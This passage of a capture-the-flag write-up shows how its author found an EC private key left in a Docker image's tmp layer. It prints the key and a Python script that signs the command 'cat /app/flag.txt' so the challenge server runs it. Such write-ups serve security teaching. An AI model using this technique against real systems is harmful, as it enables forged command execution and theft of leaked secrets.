 In that bash script the private key is being generated as a temporary file using mktemp command, I decided to take a look back to the dive layer inspector and check if there are any changes in the tmp directory.<br></br>
And there were changes indeed: 

<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/System-Dashboard/screenshots/tmp.png">

I searched for tmp directory in layer and I found private key

<pre>
-----BEGIN EC PRIVATE KEY-----
MHQCAQEEIJGnfhY+o/20Okl35KUWNDtw/8oMTQCGgFo5YVlg1P8moAcGBSuBBAAK
oUQDQgAEKf70Npy9NKtgRrDI3wOYa2LZHncCcoyUOi41uL/rFM+6Zp27BPY+kQCm
xGXPShKvE79OQKsNH7z9HLOPUJrABQ==
-----END EC PRIVATE KEY-----
</pre>


<h4><i> Getting the flag </i></h4>
<p>
Since I found the private key that is being used to sign the commands, all I needed to do is to sign my custom command and print out the flag. I know where the flag is on their server so all I had to do is to cat the file and grab the flag. A simple python script will do this for me.

```python

from ecdsa import VerifyingKey, SigningKey
from base64 import b64encode, b64decode

nonce = "CgSLnVZKS6e3lOAnc/k57w==" # nonce from config.json
pub = '''
-----BEGIN PUBLIC KEY-----
MFYwEAYHKoZIzj0CAQYFK4EEAAoDQgAEKf70Npy9NKtgRrDI3wOYa2LZHncCcoyU\nOi41uL/rFM+6Zp27BPY+kQCmxGXPShKvE79OQKsNH7z9HLOPUJrABQ==
-----END PUBLIC KEY-----
'''.strip() # This is Verifying key / pub key from config.json

public_key_ec = VerifyingKey.from_pem(pub)
nonce = b64decode(nonce)

with open("privkey.pem","r") as pk:  # privkey.pem is our tmp file
 pkey = pk.read()
 pkey = SigningKey.from_pem(pkey)
 print('what is pkey', pkey)

cmd1 = b64encode(pkey.sign_deterministic(nonce + b'cat /app/flag.txt')).decode('utf8') # b64 encoded signature

print(cmd1)
```
